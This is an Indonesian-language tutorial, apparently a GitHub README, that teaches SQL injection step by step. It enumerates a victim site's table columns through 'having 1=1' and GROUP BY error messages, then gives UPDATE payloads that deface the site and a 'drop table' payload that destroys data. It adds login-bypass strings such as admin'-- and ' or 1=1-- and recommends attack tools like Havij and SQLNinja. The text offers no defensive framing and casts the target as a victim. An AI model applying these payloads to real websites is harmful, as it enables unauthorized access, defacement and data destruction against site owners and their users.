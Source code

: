 # Sadewo
 10 langkah belajar SQL injection step by step
 
 Bagi Anda yang baru pertama kali mempelajari SQL injection, kali ini kami akan memandu Anda untuk belajar SQL injection step by step. Ini dia langkah-langkahnya:

Misalnya saja, ada sebuah website dengan alamat sebagai berikut: http://www.website.com/Press_Releases/news.asp?id=57Untuk mendapat nama table dan nama field pertama, masukan alamat ini di browser : “<alamat website> having 1=1”Selanjutnya, akan muncul pesan error: Microsoft OLE DB Provider for SQL Server error ‘80040e14’ Column ‘media.id’ is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause. /Press_Releases/news.asp, line 6Dari pesan error tersebut, kita dapat mengetahui bahwa nama table adalah “media” dan nama field pertama adalah “id”Untuk mencari tahu nama field selanjutnya, masukan alamat ini di browser: <alamat website> GROUP BY media.id having 1=1Selanjutnya, akan muncul pesan error: Microsoft OLE DB Provider for SQL Server error ‘80040e14’ Column ‘media.mediadate’ is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause. /Press_Releases/news.asp, line 6Dari pesan error tersebut, kita dapat mengetahui bahwa nama field kedua adalah “mediadate”Untuk mencari tahu nama field selanjutnya, masukan alamat ini di browser : <alamat website> GROUP BY media.id,media.mediadate having 1=1
  
  Selanjutnya, akan muncul pesan error: Microsoft OLE DB Provider for SQL Server error ‘80040e14’ Column ‘media.mediatitle’ is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause. /Press_Releases/news.asp, line 6Dari pesan error tersebut, kita dapat mengetahui bahwa nama field ketiga adalah “mediatitle”Untuk mengetahui nama field selanjutnya, masukan alamat ini di browser: <alamat website> GROUP BY media.id,media.mediadate,media.mediatitle having 1=1Selanjutnya, akan muncul pesan error: Microsoft OLE DB Provider for SQL Server error ‘80040e14’ Column ‘media.mediapublisher’ is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause. /Press_Releases/news.asp, line 6Dari pesan error tersebut, kita bisa tahu bahwa nama field keempat adalah “mediapublisher”Untuk mengetahui nama field selanjutnya, masukan alamat ini di browser: <alamat website> GROUP BY media.id,media.mediadate,media.mediatitle,media.mediapublisher having 1=1Selanjutnya, akan muncul pesan error: Microsoft OLE DB Provider for SQL Server error ‘80040e14’ Column ‘media.mediapath’ is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause. /Press_Releases/news.asp, line 6Dari pesan error tersebut, kita bisa tahu bahwa nama field kelima adalah “mediapath”Untuk mengetahui nama field selanjutnya, masukan alamat ini di browser: <alamat website> GROUP BY media.id,media.mediadate,media.mediatitle,media.mediapublisher,media.mediapath having 1=1Selanjutnya, akan muncul pesan error: Microsoft OLE DB Provider for SQL Server error ‘80040e14’ Column ‘media.ishtml’ is invalid in the select list because it is not contained in either an aggregate function or the GROUP BY clause. /Press_Releases/news.asp, line 6ari pesan error tersebut, kita bisa tahu bahwa nama field keenam adalah “ishtml”Untuk mengetahui nama field selanjutnya, masukan alamat ini di browser: <alamat website> GROUP BY media.id,media.mediadate,media.mediatitle,media.mediapublisher,media.mediapath,media.ishtml having 1=1Berbeda dengan langkah-langkah sebelumnya, selanjutnya tidak akan muncul pesan error apapun. Ini artinya, pencarian field sudah selesai.
  
  Untuk mengubah data, gunakan perintah “UPDATE”. Misalnya Anda hendak mengubah isi dari field ”mediapublisher”, ketik alamat berikut di browser: <alamat website>; UPDATE media set mediapublisher=’HACKER WAS HERE’ where id=57;Coba Anda akses alamat website korban dan lihat perubahannya.Anda juga bisa mencoba untuk menghapus table, walaupun cara ini berbahaya. Untuk melakukannya, gunakan perintah “DROP”. Ketik alamat berikut di web browser: <alamat website>; drop table media;2 cara SQL injection login form

Untuk menembus password pada login form pada sebuah website, Anda bisa menempuh dua cara. Dari kedua cara tersebut, Anda bisa masuk ke suatu server website tanpa harus mengetahui password aksesnya. Berikut ini cara SQL injetcion login form yang bisa Anda gunakan:

Menambahkan karakter ‘#’ setelah UserId. Sehingga ketika Anda memasukkan data yang ditambah karakter “#” pada kolom User Id dan sembarang karakter pada kotak Password, seperti pada gambar di bawah ini,Maka ketika tombol “Login” diklik, website tersebut akan menjalankan query seperti gambar di bawah ini:

" i-amphtml-auto-lightbox-visited="" style="max-width: 100%; display: block !important;">sql injection login

Tanda “#” adalah tanda untuk komentar (remark) dalam bahasa pemrograman SQL. Tanda ini akan menyebabkan karakter setelah tanda tersebut akan diabaikan oleh sistem serta tidak akan dianggap sebagai kode program. Menariknya, imbas dari adanya tanda ini adalah Anda bisa memasukkan sembarang karakter pada kolom Password dan Anda masih bisa login menggunakan user ID yang Anda masukkan.Menambahkan injection string <karakter sembarang> ‘OR ‘x’=’x pada kolom Password.Sehingga ketika Anda mengklik tombol “Login”, sistem pada website tersebut akan menjalankan perintah seperti gambar di bawah ini.

" i-amphtml-auto-lightbox-visited="" style="max-width: 100%; display: block !important;">sql injection login

Lalu, karena pada kolom Password terisi karakter ‘sembarang’, tentu saja input data tersebut akan bernilai false dan Anda tidak bisa login ke website tersebut. Alasannya sederhana, karena password yang dimasukkan tidak sama dengan yang tersimpan di website. Tetapi karena query lanjutannya, yaitu OR ‘x’=’x , sistem website akan diberikan pilihan. Bila sebelumnya data password yang dimasukkan bernilai salah, maka selanjutnya akan dijalankan pilihan yang sudah pasti benar, yaitu ‘x’=’x’. Sehingga, Anda bisa menembus login form tanpa harus tahu password dari pemegang user ID tersebut.
  
  tips SQL injection tutorial username password

Berikut ini adalah cara-cara sql injection tutorial username password yang bisa Anda ikuti di bawah ini:

Tambahkan karakter ‘–‘ pada kolom username. Tujuannya, agar ketika Anda mengklik tombol Login, sistem pada website akan memproses sintaks SQL berikut: SELECT * FROM users WHERE username=”–‘ AND password=’d41d8cd98f00b204e9800998ecf8427e’, dimana karakter ‘d41d8cd98f00b204e9800998ecf8427e’ menandakan karakter kosong yang dienkripsi oleh MD5. Sehingga, sintaks SQL yang akan dieksekusi oleh sistem website hanyalah: SELECT * FROM users WHERE username=”Lalu, agar Anda bisa dikenali sebagai username tertentu oleh sistem website, maka sintaks SQL yang dimasukkan haruslah bernilai TRUE. Jika Anda hanya menggunakan string ” — ” (tanpa tanda kutip), maka Anda tidak akan dikenali oleh sistem website karena username ” alias kosong itu tidak ada. Untuk itu, Anda harus menambah sebuah pernyataan yang bernilai TRUE, misalnya:‘ or true–‘ or 1=1–‘ or ‘a’=’a’–Sementara itu, jika Anda sudah mengetahui username yang terdaftar di website tersebut, tetapi Anda tidak tahu passwordnya, Anda bisa menggunakan menambahkan pernyataan setelah username seperti berikut:admin’–admin’ or true–admin’ or ‘1’=’1′–

 

download SQL injection tools untuk praktek" i-amphtml-auto-lightbox-visited="" style="max-width: 100%; display: block !important;">download sql injection

Untuk memudahkan Anda belajar SQL injection, saat ini sudah ada beberapa tools yang bisa Anda gunakan. Anda bisa download SQL injection tools yang kami rekomendasikan di bawah ini. Tentu saja, Anda harus mencarinya sendiri di internet, karena kami hanya akan menjelaskan keunggulan dari masing-masing tools. Ini dia toolsnya:

Havij SQL InjectionTool SQL injection satu ini memiliki metode injection yang berbeda dengan tool lainnya. Oleh karena itu, tingkat kesuksesan tool ini dalam melakukan SQL injection bisa mencapai 95%. Selain itu, tampilan Havij yang user friendly membuatnya bisa dimengerti oleh semua kalangan.Pangolin – Automated SQL Injection Test ToolTools berguna untuk melakukan SQL injection dalam rangka pengujian tingkat keamanan sebuah database.BSQL HackerBSQL (Blind SQL) Hacker adalah tool SQL Injection yang diperuntukkan untuk melakukan SQL injection secara virtual.Safe3 SQL InjectorSafe3SI juga merupakan tool SQL injection yang user friendly dan tingkat keberhasilannya hampir sama dengan Havij.The MoleTool satu ini sebaiknya digunakan bagi orang yang paham, karena tampilannya yang kurang user friendly.SQLNinja SQL injectionTool ini diperuntukan untuk melakukan SQL injection pada website yang menggunakan Microsoft SQL Server sebagai aplikasi databasenya.
